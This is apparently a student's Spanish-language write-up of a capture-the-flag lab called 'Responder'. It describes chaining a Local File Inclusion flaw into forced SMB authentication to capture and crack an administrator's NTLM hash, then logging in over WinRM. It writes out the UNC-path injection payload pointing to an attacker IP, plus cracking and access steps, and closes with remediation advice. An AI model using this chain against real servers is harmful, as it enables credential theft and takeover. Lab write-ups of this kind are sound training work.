# 🎯 Laboratorio: RESPONDER 

**📅 Fecha:** 7 de mayo de 2026 
**🖥️ IP objetivo:** 10.129.175.99 / 10.129.136.91

---

## 🛠️ Pasos realizados
1. **📡 Reconocimiento y Adaptación:** Se detectó el bloqueo de paquetes masivos en un escaneo rápido (`--min-rate 5000`). Al ajustar los parámetros, se descubrieron los puertos 80 (Apache) y 5985 (WinRM).
2. **🌐 Resolución de DNS Local:** El servidor web redirigía al dominio `unika.htb`, el cual no resolvía. Se editó el archivo `/etc/hosts` para mapear la IP al dominio, evadiendo el Name-Based Virtual Hosting.
3. **🔍 Identificación de LFI:** Se identificó una vulnerabilidad de Local File Inclusion (LFI) en el parámetro `page` de la URL (`http://unika.htb/?page=french.html`).
4. **⚙️ Troubleshooting de Herramientas (Responder):** Al intentar ejecutar Responder para interceptar la petición, surgieron errores de dependencias de Python (`aioquic`). Los intentos de instalación vía `pip` fallaron por las restricciones de entorno administrado (PEP 668) en Linux modernos, y vía `apt` por bloqueos del frontend (`dpkg/lock-frontend`).
   * *Resolución:* Mediante consultas a herramientas de IA, se identificó la sintaxis correcta para repositorios modernos de Parrot OS, logrando instalar la dependencia globalmente con `sudo apt install python3-aioquic -y`.
5. **🎣 Explotación (Captura de Hash):** Se inyectó un payload SMB apuntando a la IP atacante (`http://unika.htb/?page=//10.10.14.120/somefile`). Responder interceptó exitosamente el intento de autenticación del servidor Windows, capturando el hash NetNTLMv2 del usuario Administrator.
6. **🔓 Troubleshooting de Cracking (John The Ripper):** El intento inicial de romper el hash copiándolo manualmente a un archivo `hash.txt` y formateándolo mediante comandos `echo` falló, resultando en falsos positivos de formato (lotus85, Raw-SHA224) y cero contraseñas recuperadas (0g).
   * *Resolución:* Tras investigar la estructura de salida de las herramientas, se determinó que los saltos de línea invisibles corrompían el hash. Se consultó documentación técnica y se procedió a apuntar John The Ripper directamente a los registros automáticos y limpios de la herramienta (`~/Responder/logs/SMB-NTLMv2-SSP-*.txt`), logrando crackear la contraseña (`badminton`) exitosamente.
7. **💻 Troubleshooting Post-Explotación (WinRM):** Al intentar el acceso remoto con `evil-winrm`, se obtuvo un error de red `No route to host`. Se identificó un cambio en el enrutamiento/IP de la instancia de laboratorio. Tras actualizar a la IP correcta, se estableció la sesión interactiva.
8. **🚩 Extracción de la Flag:** Al ingresar como Administrator, se constató que el directorio `Desktop` predeterminado estaba vacío. Reconociendo patrones de entornos CTF, se navegó hacia el directorio de usuarios secundarios (`C:\Users\mike\Desktop`), localizando y leyendo el archivo `flag.txt`.

## 📸 Evidencias

*(Fase de Reconocimiento)*



*(Troubleshooting e Instalación de Responder)*







*(Explotación y Captura)*


*(Troubleshooting de Cracking)*




*(Post-Explotación)*

---

## ⚠️ Vulnerabilidad identificada
**Explotación encadenada:** Vulnerabilidad web de Inclusión de Archivos Locales (LFI) utilizada como vector para forzar una autenticación saliente SMB (Server Message Block), derivando en la filtración de credenciales NTLM del administrador.

## 🚨 Riesgo asociado
Pérdida total del control del servidor. El descifrado de las credenciales de un administrador local permite la ejecución remota de código a nivel de sistema (vía WinRM), facilitando la exfiltración de datos y el compromiso de la red interna.

## 🛡️ Controles de seguridad recomendados
* **Remediación de Código:** Sanitizar rigurosamente las entradas de usuario en la aplicación PHP y deshabilitar directivas peligrosas (`allow_url_include=Off`).
* **Hardening de Red:** Implementar reglas de firewall de egreso (Egress Filtering) para bloquear el tráfico saliente desde el servidor hacia Internet en los puertos 445 (SMB) y 139 (NetBIOS).
* **Restricción NTLM:** Configurar políticas locales o de grupo (GPO) en Windows para denegar el envío de respuestas NTLM hacia servidores remotos fuera del dominio corporativo de confianza.

## 🧠 Aprendizaje personal
Este laboratorio evidenció que la explotación técnica rara vez es lineal. Se requirió un alto nivel de troubleshooting operativo: desde lidiar con políticas de instalación restrictivas de Python (PEP 668) hasta solucionar problemas de codificación de texto que corrompían los hashes para John The Ripper. Aprendí que consultar documentación externa e Inteligencia Artificial para destrabar errores de dependencias o sintaxis no es un atajo, sino una habilidad central del análisis de seguridad. Además, reforcé operativamente la importancia de no depender exclusivamente de copiar y pegar desde la terminal, apoyándome en su lugar en los logs automatizados de las herramientas para garantizar la integridad de los datos criptográficos.